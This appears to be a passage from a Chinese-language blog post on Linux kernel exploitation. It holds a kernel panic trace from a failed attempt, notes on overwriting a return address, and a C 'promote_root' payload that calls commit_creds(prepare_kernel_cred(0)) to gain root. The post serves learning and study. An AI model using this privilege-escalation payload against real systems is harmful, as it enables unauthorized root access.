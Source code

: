 ```bash
[   44.552188] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   44.553857] CR2: 00000000006d1020 CR3: 000000001fa6e000 CR4: 00000000000006f0
[   44.556680] Call Trace:
[   44.559061]  proc_reg_unlocked_ioctl+0x3d/0x70
[   44.561896]  do_vfs_ioctl+0x8a/0x5b0
[   44.564238]  SyS_ioctl+0x6f/0x80
[   44.565645]  do_syscall_64+0x56/0xf0
[   44.567026]  entry_SYSCALL_64_after_hwframe+0x3d/0xa2
[   44.569517] RIP: 0033:0x7fce00c00107
[   44.571259] RSP: 002b:00007fffeb601fb8 EFLAGS: 00000203 ORIG_RAX: 0000000000000010
[   44.573326] RAX: ffffffffffffffda RBX: 0000000000000000 RCX: 00007fce00c00107
[   44.575684] RDX: ffffffffffff0058 RSI: 000000006677889a RDI: 0000000000000003
[   44.577902] RBP: 00007fffeb602270 R08: 00007fce00b59988 R09: 0000000000000013
[   44.580405] R10: 0000000000000000 R11: 0000000000000203 R12: 0000558988bed1c0
[   44.583526] R13: 00007fffeb602350 R14: 0000000000000000 R15: 0000000000000000
[   44.586214] Code: 84 00 00 00 00 00 e9 3b fc ff ff 0f 0b 90 90 90 90 90 90 90 90 90 48 83 c7 48 e9 d7 89 fb ff 0f 1f 80 00 00 00 00 b8 ff ff ff ff <3e> 0f c1 47 6c 3d 01 00 00 80 74 0 
[   44.593812] RIP: unuse_pde+0x5/0x20 RSP: ffffad8d0016fe78
[   44.597231] ---[ end trace 5f023e3f9e6ae13a ]---
[   44.601485] Kernel panic - not syncing: Fatal exception
[   44.607695] Kernel Offset: 0x2400000 from 0xffffffff81000000 (relocation range: 0xffffffff80000000-0xffffffffbfffffff)
[   44.613712] Rebooting in 1 seconds..
```

不确定是不是因为rbp不对导致的？？？

方式3：传递给name变量用于覆盖ret_address的值地址还是promote_root函数的地址，为了平衡栈，我们需要多增加新增一个新的pop操作，当然mov %rsp,%rbp要优先执行：

> |--rip(ioctl)--|--rbx(ioctl)--|---rbp---|--size=0x10--|

promote_root代码：

```c
void promote_root()
{

    int (*commit_cred)(struct cred *new);
    struct cred *(*prepare_kernel_cred)(struct task_struct *daemon);

    commit_cred = commit_cred_addr;
    prepare_kernel_cred =  prepare_kernel_cred_addr;
    (*commit_cred)((*prepare_kernel_cred)(0));
    asm("mov %rbp,%rsp");//因为反汇编看出缺少部分内容
    asm("pop %rbp"); 
}
```

name和设置和1保持一致。

但是，，但是失败了，

（和方式2会产生相同的问题，不确定是不是因为rbp不对导致的？？？）

## 4. SMEP和SMAP是能时？
